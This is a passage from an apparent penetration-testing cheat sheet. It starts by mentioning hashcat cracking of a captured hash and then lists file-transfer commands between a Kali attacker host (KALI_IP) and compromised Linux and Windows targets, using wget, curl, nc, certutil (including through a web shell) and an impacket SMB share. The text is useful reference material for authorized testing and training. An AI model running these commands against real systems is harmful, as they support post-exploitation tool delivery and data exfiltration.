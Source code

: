 crack the captured hash with hashcat mode 5600

## 3. File Transfer
### Linux target
```bash
## HTTP
# Kali side
python3 -m http.server 80
# Target side
wget/curl KALI_IP/FILE
## nc
# Receiver
nc -lvnp PORT > FILE
# Sender
nc -nv Receiver_IP PORT < FILE
```

### Windows Target
#### HTTP
```bash
# Kali side
python3 -m http.server 80
```
```powershell
# powershell way
powershell iwr http://KALI_IP/FILE -outfile .\FILE
# Certutil cmd
certutil.exe -urlcache -f http://KALI_IP/FILE OUTPUT_PATH
# if via web shell
cmd.exe /c certutil.exe -urlcache -f http://KALI_IP/FILE OUTPUT_PATH
```

#### SMB (recommended)
```bash
# Kali side
impacket-smbserver share . -smb2support -username USER -password PASS
```
```cmd
# Windows side
net use Y: \\KALI_IP\share /user:USER PASS
# After established connection
# Transfer from windows to Kali
copy FILE Y:\
# Transfer from kali to windows
copy Y:\File .\
```

#### AD specified situation
Sometimes you pivoted to an internal facing only computer in an AD environment,
you might need to transfer files for post exploitation or local enumeration.
These are the possible ways to do so.
